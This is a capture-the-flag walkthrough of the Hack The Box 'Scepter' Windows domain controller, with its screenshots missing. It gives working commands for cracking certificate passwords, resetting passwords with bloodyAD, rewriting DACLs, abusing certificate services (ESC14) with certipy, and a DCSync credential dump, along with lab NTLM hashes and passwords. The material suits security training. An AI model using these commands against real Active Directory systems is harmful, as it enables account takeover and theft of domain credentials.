```
Scope:
10.129.244.44
```

# Recon
## Nmap

```bash
PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2026-01-25 01:38:53Z)
111/tcp   open  rpcbind       syn-ack 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: scepter.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.scepter.htb
| Issuer: commonName=scepter-DC01-CA/domainComponent=scepter
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: scepter.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.scepter.htb
| Issuer: commonName=scepter-DC01-CA/domainComponent=scepter
2049/tcp  open  nlockmgr      syn-ack 1-4 (RPC #100021)
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: scepter.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.scepter.htb
| Issuer: commonName=scepter-DC01-CA/domainComponent=scepter
3269/tcp  open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: scepter.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.scepter.htb
| Issuer: commonName=scepter-DC01-CA/domainComponent=scepter
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
5986/tcp  open  ssl/http      syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2026-01-25T01:39:56+00:00; +6h30m54s from scanner time.
| ssl-cert: Subject: commonName=dc01.scepter.htb
| Subject Alternative Name: DNS:dc01.scepter.htb
| Issuer: commonName=dc01.scepter.htb
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| tls-alpn: 
|_  http/1.1
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49673/tcp open  msrpc         syn-ack Microsoft Windows RPC
49690/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49691/tcp open  msrpc         syn-ack Microsoft Windows RPC
49695/tcp open  msrpc         syn-ack Microsoft Windows RPC
49696/tcp open  msrpc         syn-ack Microsoft Windows RPC
49709/tcp open  msrpc         syn-ack Microsoft Windows RPC
49757/tcp open  msrpc         syn-ack Microsoft Windows RPC
49761/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Right away I noticed that an NFS port was open which is almost always low hanging fruit.

## 2049/TCP - NFS





In order to view the contents I had to be *root*:



I copy them over to my `/home` directory and convert the `pfx` files to hashes. In turn I am able to crack them using `john`:



I tried to export the `pfx` file in order to get a TGT but failed miserably:



However this did show me the naming convention of the domain -> *e.lewis* which meant I could now attempt a `kerbrute` user enumeration. For this I will be mutating a wordlist first:

```bash
sed 's/^\(.\)/\1./' /usr/share/seclists/Usernames/statistically-likely-usernames/jsmith.txt > j.smith.txt
```



It did get us a couple of users. I tried spraying the password and it didn't seem to work for any of the found users, however one account did seem to be restricted:



## PFX certificate bundle

Since none of the above worked I returned to the `baker.crt` and `baker.key` files. Using the password phrase that we cracked, `newpassword`, I was able to write the RSA key.

```bash
openssl rsa -in baker.key -out decrypted.key
```



I then appended the certificate info into the `baker.pem` file:



Next up I ran the following command:

```bash
openssl pkcs12 -in baker.pem -keyex -CSP  "Microsoft Enhanced Cryptographic Provider v1.0" -export -out baker.pfx
```

>[!important]
>Leave the export password blank!



Now we can auth as baker:



```
d.baker
18b5fb0d99e7a475316213c15b6f22ce
```

## nxc

Now I was able to start fully enumerating the system:



Unfortunately there was nothing interesting on the shares:



## BloodHound

Time for some `bloodhound` enumeration:



### ForceChangePassword



This is easily done with `bloodyAD`:

```bash
bloodyAD --host 10.129.244.44 -d scepter.htb -u 'd.baker' -p ':18b5fb0d99e7a475316213c15b6f22ce' set password 'a.carter' 'P@ssword123!'
```



### GenericAll on OU

As per the [bloodhound wiki](https://bloodhound.specterops.io/resources/edges/generic-all#with-genericall-over-an-ou) 


This can be done as follows:

```bash
impacket-dacledit -action 'write' -rights 'FullControl' -inheritance -principal 'a.carter' -target-dn 'OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB' 'scepter.htb'/'a.carter':'P@ssword123!'
```



# Exploitation
## ADCS - ESC14

Continuing on I check out the certificate templates using `certipy-ad`:

```bash
certipy-ad find -u d.baker -hashes :18b5fb0d99e7a475316213c15b6f22ce  -dc-ip 10.129.244.44 -stdout -vulnerable
```



At the bottom I notice that the target is vulnerable to **ESC9**:



I also noticed the following:


This is an interesting find but we need to enumerate further to make this work.

### altSecurityIdentities

We can search for `altSecurityIdentities` using the following `nxc` command with `ldap` query:

```bash
nxc ldap scepter.htb -u d.baker -H 18b5fb0d99e7a475316213c15b6f22ce --query "(&(objectCategory=person)(objectClass=user)(altSecurityIdentities=*))" "" 
```



I see that this outputs the *h.brown* user who has it set. I can exploit this using `bloodyAD`:

```bash
bloodyAD --host 10.129.244.44 -d scepter.htb -u 'a.carter' -p 'P@ssword123!' add genericAll 'OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB' a.carter

bloodyAD --host 10.129.244.44 -d scepter.htb -u 'a.carter' -p 'P@ssword123!' set object d.baker mail -v h.brown@scepter.htb
```



>[!note]
>The LDAP query shows that **h.brown** has `altSecurityIdentities` set to an **X.509 RFC822 mapping**, meaning any certificate containing the email `h.brown@scepter.htb` can authenticate as that user without knowing their password.

Next up we can request the certificate:

```bash
certipy-ad req -username 'd.baker@scepter.htb' -hashes ':18b5fb0d99e7a475316213c15b6f22ce' -target dc01.scepter.htb -ca scepter-DC01-CA -template StaffAccessCertificate -dc-ip 10.129.244.44
```



We can now auth as *h.brown* through this cert:

```bash
certipy-ad auth -pfx d.baker.pfx -dc-ip 10.129.244.44 -domain scepter.htb -username h.brown
```



There's just a small problem however...



As mentioned earlier on in the writeup, this account is **restricted** since it is inside the **Protected Users** group.



# Foothold
## Shell as h.brown

No biggy though as we can easily login using the `ccache` file:

```bash
KRB5CCNAME=h.brown.ccache evil-winrm -i dc01.scepter.htb -r scepter.htb
```


### user.txt



# Privilege Escalation
## ADCS - ESC14 (v2.0)

When checking the **Shortest Paths to Admin** query on `bloodhound` I noticed the following:



Turns out that the *p.adams* user has quite interesting privs here, let's check out the **Helpdesk Enrollment Certificate** template.



Looks like only users in the **Admin** groups can write to it, unless...

```bash
bloodyAD --host dc01.scepter.htb -d scepter.htb -k get writable --detail
```



Terribly convenient, let's exploit this.



Since *p.adams* does not have an **altSecurityIdentities** set we can use the one from *h.brown*:

```bash
bloodyAD --host dc01.scepter.htb -d scepter.htb -k set object 'p.adams' altSecurityIdentities -v 'X509:<RFC822>h.brown@scepter.htb'
```


Accordingly we'll set *d.baker*'s mail again to match it:

```bash
bloodyAD --host 10.129.244.44 -d scepter.htb -u 'a.carter' -p 'P@ssword123!' set object d.baker mail -v h.brown@scepter.htb
```



And we can request the certificate:

```bash
certipy-ad req -username 'd.baker@scepter.htb' -hashes ':18b5fb0d99e7a475316213c15b6f22ce' -target dc01.scepter.htb -ca scepter-DC01-CA -template StaffAccessCertificate -dc-ip 10.129.244.44
```



This certifcate can now be used to authenticate as *p.adams*:



## DCSync

Since we earlier found that we can `DCSync` we can just go ahead and run `impacket-secretsdump` in order to dump the `ntds.dit`:




The same can be achieved through `nxc`:



### root.txt





---
